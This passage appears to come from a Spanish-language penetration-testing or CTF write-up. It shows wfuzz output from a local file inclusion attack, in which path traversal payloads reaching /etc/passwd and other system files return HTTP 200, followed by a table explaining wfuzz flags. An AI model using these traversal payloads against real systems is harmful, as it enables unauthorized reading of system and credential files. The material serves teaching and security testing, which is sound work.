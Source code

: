 ```bash
000000263:   200        142 L    303 W      4776 Ch     "../../../../../../../../../../../../../../../../../etc/passwd"                                                              
000000261:   200        142 L    303 W      4776 Ch     "../../../../../../../../../../../../../../../../../../../etc/passwd"                                                        
000000258:   200        142 L    303 W      4776 Ch     "../../../../../../../../../../../../../../../../../../../../../../etc/passwd"                                               
000000264:   200        142 L    303 W      4776 Ch     "../../../../../../../../../../../../../../../../etc/passwd"                                                                 
000000259:   200        142 L    303 W      4776 Ch     "../../../../../../../../../../../../../../../../../../../../../etc/passwd"                                                  
000000262:   200        142 L    303 W      4776 Ch     "../../../../../../../../../../../../../../../../../../etc/passwd"                                                           
000000254:   200        142 L    303 W      4776 Ch     "/../../../../../../../../../../etc/passwd"                                                                                  
000000253:   200        142 L    303 W      4776 Ch     "/./././././././././././etc/passwd"                                                                                          
000000273:   200        142 L    303 W      4776 Ch     "../../../../../../../etc/passwd"                                                                                            
000000267:   200        142 L    303 W      4776 Ch     "../../../../../../../../../../../../../etc/passwd"                                                                          
000000269:   200        142 L    303 W      4776 Ch     "../../../../../../../../../../../etc/passwd"                                                                                
000000250:   200        128 L    318 W      3519 Ch     "/etc/nsswitch.conf"                                                                                                         
000000249:   200        127 L    356 W      3760 Ch     "/etc/netconfig"                                                                                                             
000000266:   200        142 L    303 W      4776 Ch     "../../../../../../../../../../../../../../etc/passwd"                                                                       
000000311:   200        142 L    303 W      4776 Ch     "../../../../../../etc/passwd&=%3C%3C%3C%3C"                                                                                 
000000272:   200        142 L    303 W      4776 Ch     "../../../../../../../../etc/passwd"                                                                                         
000000276:   200        142 L    303 W      4776 Ch     "../../../../etc/passwd"                                                                                                     
000000270:   200        142 L    303 W      4776 Ch     "../../../../../../../../../../etc/passwd"                                                                                   
000000268:   200        142 L    303 W      4776 Ch     "../../../../../../../../../../../../etc/passwd"                                                                             
000000271:   200        142 L    303 W      4776 Ch     "../../../../../../../../../etc/passwd"                                                                                      
000000274:   200        142 L    303 W      4776 Ch     "../../../../../../etc/passwd"                                                                                               
000000275:   200        142 L    303 W      4776 Ch     "../../../../../etc/passwd"
```

| Parámetros | Descripción |
|--------------------------|
| *-c*       | Para ver el resultado en un formato colorido. |
| *--hc*     | Para no mostrar un código de estado en los resultados. |
| *--hh*     | Para no mostrar respuestas con la cantidad de caracteres especificada. |
| *-t*       | Para indicar la cantidad de hilos a usar. |
| *-w*       | Para indicar el diccionario a usar en el fuzzing. |
